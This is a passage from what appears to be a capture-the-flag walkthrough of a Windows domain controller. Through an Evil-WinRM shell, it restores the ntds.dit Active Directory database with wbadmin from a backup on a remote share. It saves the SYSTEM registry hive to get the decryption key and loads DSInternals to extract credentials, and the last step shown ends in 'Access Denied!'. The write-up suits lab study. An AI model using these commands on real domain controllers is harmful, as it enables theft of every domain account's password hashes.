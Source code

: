 Now to restore the file, first getting the backup version identifier.

```
*Evil-WinRM* PS C:\Users\svc_backup\Documents> 

wbadmin get versions                  
wbadmin 1.0 - Backup command-line tool                                               
(C) Copyright Microsoft Corporation. All rights reserved.

Backup time: 6/12/2020 12:26 AM
Backup location: Network Share labeled \\10.10.14.41\share
Version identifier: 06/12/2020-07:26
Can recover: Volume(s), File(s)
```


Then running the recovery command:

```
*Evil-WinRM* PS C:\Users\svc_backup\Documents> wbadmin start recovery -version:06/12/2020-07:26 -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:c:\windows\temp\kas -notrestoreacl -quiet
wbadmin 1.0 - Backup command-line tool
(C) Copyright Microsoft Corporation. All rights reserved.

Retrieving volume information...
You have chosen to recover the file(s) c:\windows\ntds\ntds.dit from the
backup created on 6/12/2020 12:26 AM to c:\windows\temp\kas.
Preparing to recover files...

Running the recovery operation for c:\windows\ntds\ntds.dit, copied (18%).
Currently recovering c:\windows\ntds\ntds.dit.
Successfully recovered c:\windows\ntds\ntds.dit to c:\windows\temp\kas\.
The recovery operation completed.
Summary of the recovery operation:
--------------------

Recovery of c:\windows\ntds\ntds.dit to c:\windows\temp\kas\ successfully completed.
Total bytes recovered: 18.00 MB
Total files recovered: 1
Total files failed: 0

Log of files successfully recovered:
C:\Windows\Logs\WindowsServerBackup\FileRestore-12-06-2020_07-40-25.log
```

The SYSTEM registry hive should be copied as well since it contains the key to decrypt the contents of the NTDS file

```
reg save HKLM\SYSTEM system
```

Upload DSInternals to using evilwinrm's upload command, then running the commands.

```
Import-Module .\DSInternals
$key=Get-BootKey '.\system'
Access Denied!
```
